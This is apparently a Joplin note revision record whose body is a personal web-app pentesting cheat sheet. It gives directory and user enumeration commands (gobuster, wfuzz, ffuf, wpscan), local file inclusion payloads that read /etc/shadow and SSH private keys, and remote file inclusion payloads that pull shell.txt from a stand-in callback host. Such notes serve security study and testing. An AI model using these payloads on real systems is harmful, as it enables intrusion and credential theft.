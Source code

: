 id: 0af1bf8adc1e490b9069df3f7f9404e1
parent_id: 
item_type: 1
item_id: 7ffbf1319a3a4c86811cf7499cfbb737
item_updated_time: 1642325712839
title_diff: "[{\"diffs\":[[1,\"General Notes\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":13}]"
body_diff: "[{\"diffs\":[[1,\"\\\n## Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!\\\n\\\n## \\\n\\\n## Common Wordlists to use for Web App Scanning: \\\n\\\nCommon Wordlists to use for Web Directory Scanning: \\\n- /usr/share/wordlists/dirb/common.txt\\\n- /usr/share/wordlists/dirbuster/*.txt\\\n- /usr/share/wordlists/wfuzz/general/*.txt\\\n- /usr/share/seclists/Discovery/Web-Content/\\\n\\\nCommon Wordlists to use for User Enumeration Scanning: \\\n- /usr/share/seclists/Usernames\\\n- /usr/share/wordlists/dirbuster/apache-user-enum-2.0\\\n\\\n## Web App Scanners\\\n\\\nNikto: \\\n\\\n- nikto --url <domain>\\\n\\\nWpscan:\\\n\\\n- wpscan --url <domain>\\\n- wpscan --url <domain> --enumerate ap at (All Plugins, All Themes)\\\n- wpscan --url <domain> --enumerate u (Usernames)\\\n- wpscan --url <domain> --enumerate v\\\n\\\nWeb Tools for Directory Scanning: \\\n\\\n\\\n\\\nDirb: \\\n\\\n- dirb <domain>\\\n- dirb <domain> <wordlist>\\\n\\\nGobuster: \\\n\\\n- gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file>\\\n- gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -a Firefox (Custom Agent)\\\n- gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html\\\n- gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s \\\"200\\\"\\\n- gobuster dir -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s \\\"200\\\"\\\n- gobuster dir -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s \\\"200\\\"\\\n- gobuster dir -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s \\\"200\\\" -o output.txt\\\n- gobuster dir -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'\\\n\\\nWfuzz:\\\n\\\n- wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ\\\n- wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ\\\n- wfuzz -z file,wordlist/others/common_pass.txt -d \\\"uname=FUZZ&pass=FUZZ\\\"  --hc 302 http://testphp.vulnweb.com/userinfo.php (Post Requests)\\\n\\\n- wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ (Fuzzing Cookies)\\\n\\\nDirsearch: \\\n\\\n- dirsearch /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 172.21.0.0 -e php\\\n\\\nFFuF:\\\n\\\n- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0\\\n- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -b \\\"COOKIE VALUE; security=low\\\" -u http://172.21.0.0\\\n- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0 -fc 403, 302, 200\\\n- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -H \\\"Host: 172.21.0.0\\\" -u http://172.21.0.0\\\n- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0 -timeout 5\\\n\\\n\\\nOther Tools: \\\n- Burp Suite\\\n- OWASP Zap\\\n- Cadaver\\\n- SQLMap\\\n- Joomscan\\\n- Feroxbuster\\\n\\\n\\\n## Testing for LFI: \\\n\\\nhttps://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf\\\n\\\nExamples: \\\n\\\nhttp://example.com/index.php?page=etc/passwd\\\nhttp://example.com/index.php?page=etc/passwd%00\\\nhttp://example.com/index.php?page=../../etc/passwd\\\nhttp://example.com/index.php?page=%252e%252e%252f\\\nhttp://example.com/index.php?page=....//....//etc/passwd\\\n\\\nInteresting Files:\\\n\\\nLinux:\\\n/etc/passwd\\\n/etc/shadow\\\n/etc/issue\\\n/etc/group\\\n/etc/hostname\\\n/etc/ssh/ssh_config\\\n/etc/ssh/sshd_config\\\n/root/.ssh/id_rsa\\\n/root/.ssh/authorized_keys\\\n/home/user/.ssh/authorized_keys\\\n/home/user/.ssh/id_rsa\\\n\\\nWindows:\\\n\\\nWindows:\\\n/boot.ini\\\n/autoexec.bat\\\n/windows/system32/drivers/etc/hosts\\\n/windows/repair/SAM\\\n\\\n\\\n\\\n## Testing for RFI: \\\n\\\nhttp://example.com/index.php?page=http://callback.com/shell.txt\\\nhttp://example.com/index.php?page=http://callback.com/shell.txt%00\\\nhttp://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt\\\n\\\n## Resources\\\n\\\n- Turning LFI to RFI: https://l.avala.mp/?p=241\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":3803}]"
metadata_diff: {"new":{"id":"7ffbf1319a3a4c86811cf7499cfbb737","parent_id":"650ce108a34a450d868c29c647ea1bab","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1606770120150,"user_updated_time":1627276808675,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.511Z
created_time: 2022-02-28T02:44:25.511Z
type_: 13